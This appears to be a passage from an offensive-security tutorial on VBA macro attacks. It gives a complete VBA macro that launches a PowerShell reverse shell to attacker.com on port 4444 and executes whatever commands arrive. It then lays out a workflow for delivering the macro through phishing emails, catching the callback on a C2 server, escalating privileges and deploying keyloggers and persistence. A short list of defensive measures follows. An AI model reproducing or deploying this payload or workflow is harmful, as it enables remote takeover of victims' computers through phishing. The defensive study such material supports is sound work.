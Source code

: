 ### **5. VBA Macro to Execute a Reverse Shell**

This macro opens a reverse shell using **PowerShell** to connect back to the attacker’s machine.

```vbnet
Sub ReverseShell()
    Dim obj As Object
    Set obj = CreateObject("Wscript.Shell")

    ' Reverse shell command.
    obj.Run "powershell.exe -NoProfile -ExecutionPolicy Bypass -Command ""$client = New-Object System.Net.Sockets.TCPClient('attacker.com', 4444);$stream = $client.GetStream();[byte[]]$buffer = 0..65535|%{0};while(($i = $stream.Read($buffer, 0, $buffer.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($buffer,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()""", 0, False
End Sub
```

- **New-Object System.Net.Sockets.TCPClient**: Creates a reverse TCP connection to the attacker's server.
- **Stream.Read**: Reads input from the attacker.
- **iex**: Executes commands received from the attacker.

> Mitigation: Monitor network traffic for suspicious connections and restrict PowerShell execution.

---

## **Pentester Workflow Using VBA Macros**

1. **Prepare the Macro Payload**:
   - Develop and test the VBA macro in a controlled environment.
2. **Deliver the Payload**:
   - Embed the macro in a Word or Excel document (.docm or .xlsm).
   - Use **phishing emails** to deliver the document to the target.
3. **Execution and Callback**:
   - Once the target opens the document and enables macros, the payload executes.
   - Ensure your **Command & Control (C2) server** is ready to receive connections.
4. **Post-Exploitation**:
   - Use the reverse shell to explore the victim’s system.
   - Escalate privileges if needed and deploy additional tools (e.g., keyloggers, persistence mechanisms).

---

## **Defensive Measures to Mitigate VBA Macro Attacks**

1. **Disable Macros by Default**: Set Office applications to block macros from untrusted sources.
2. **Use Email Filters**: Block emails with attachments that contain macros.
3. **Monitor PowerShell Execution**: Restrict PowerShell and WMI scripts.
4. **Network Segmentation**: Limit internet access for critical systems to prevent callbacks.
5. **Endpoint Protection**: Use behavior-based detection tools to identify malicious macro activity.

---